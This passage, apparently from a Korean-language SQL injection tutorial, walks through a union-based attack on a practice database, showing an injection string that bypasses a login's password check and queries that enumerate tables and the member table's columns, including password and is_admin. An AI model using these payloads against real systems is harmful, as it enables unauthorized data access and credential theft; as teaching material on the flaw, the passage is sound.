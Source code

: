 ```sql
1 row in set (0.01 sec)
```

## ✳️ 테이블 이름 찾기

```sql
SELECT table_schema, table_name, 1 FROM information_schema.tables WHERE table_schema = 'sqlinjection';
+--------------+------------+---+
| TABLE_SCHEMA | TABLE_NAME | 1 |
+--------------+------------+---+
| sqlinjection | member     | 1 |
| sqlinjection | post       | 1 |
+--------------+------------+---+
2 rows in set (0.01 sec)
```

```
입력: 1' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables WHERE table_schema = 'sqlinjection' LIMIT 1#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '1' 
UNION 
SELECT table_schema, table_name, 1 
FROM information_schema.tables 
WHERE table_schema = 'sqlinjection' 
LIMIT 1#' AND password = ''

+--------------+-------------+----------+
| username     | description | is_admin |
+--------------+-------------+----------+
| sqlinjection | member      |        1 |
+--------------+-------------+----------+
1 row in set (0.00 sec)
```

## ✳️ 컬럼 이름 찾기

```sql
SELECT table_name, column_name, 1 
FROM information_schema.columns 
WHERE table_schema = "sqlinjection" 
AND table_name = "member"

+------------+-------------+---+
| TABLE_NAME | COLUMN_NAME | 1 |
+------------+-------------+---+
| member     | id          | 1 |
| member     | username    | 1 |
| member     | password    | 1 |
| member     | description | 1 |
| member     | is_admin    | 1 |
+------------+-------------+---+
5 rows in set (0.01 sec)
```
